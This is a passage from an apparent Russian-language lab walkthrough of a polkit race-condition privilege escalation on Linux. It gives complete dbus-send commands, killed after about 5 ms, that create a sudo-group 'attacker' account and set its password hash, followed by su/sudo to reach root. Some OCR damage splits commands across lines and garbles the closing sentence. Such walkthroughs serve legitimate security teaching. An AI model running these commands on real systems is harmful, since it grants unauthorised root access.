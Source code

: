 Это занимает 0,011 секунды или 11 миллисекунд. Это число будет немного отличаться каждый раз, когда вы запускаете 
команду; однако на предоставленной машине оно всегда должно быть около этого числа. 

Примечание: в течение первых пяти минут или около того после развертывания машина все еще загружает все в фоновом 
режиме, поэтому не пугайтесь, если поначалу время будет намного больше — просто продолжайте периодически запускать 
команду, пока она не даст вам время, похожее на результаты, указанные выше.  

Нам нужно завершить команду примерно на полпути выполнения. Пять миллисекунд обычно работают достаточно хорошо на 
предоставленной машине; однако имейте в виду, что это не точное значение. Вам может потребоваться изменить время сна 
или запустить команду несколько раз, прежде чем она сработает. Тем не менее, как только вы найдете время, которое 
работает, оно должно работать стабильно. Если вы изо всех сил пытаетесь получить рабочее время, поместите команду в 
цикл bash for и быстро пройдитесь по диапазону времен, как правило, это сработает довольно хорошо.

Давайте попробуем это. Нам нужно отправить сообщение dbus, а затем убить его примерно на полпути:
```commandline
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.
freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $! 
```

Чтобы объяснить приведенную выше команду, мы отправили сообщение dbus в фоновом задании (используя амперсанд для 
фонового выполнения команды). Затем мы сказали ему заснуть на 5 миллисекунд ( sleep 0.005s), а затем завершить 
предыдущий процесс ( $!). Это успешно создало нового пользователя, добавив его в группу sudo.  
На этом этапе мы должны отметить, что идентификатор нового пользователя в этом случае равен 1000.

Теперь нам осталось только дать пользователю пароль, и все будет готово!

Здесь нам нужен хэш пароля, поэтому давайте сгенерируем хэш Sha512Crypt для выбранного нами пароля ( Expl01ted):
openssl passwd -6 Expl01ted


Используя openssl, мы генерируем пароль типа 6 (SHA512-crypt) и наш открытый текстовый пароль ( Expl01ted).

Теперь давайте закончим это! В прошлый раз сработало 5 миллисекунд, значит, должно сработать и здесь:
```commandline
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply 
/org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword 
string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' 
string:'Ask the pentester' & sleep 0.005s; kill $!
```

С hop, su и a sudo -sмы получаем root!
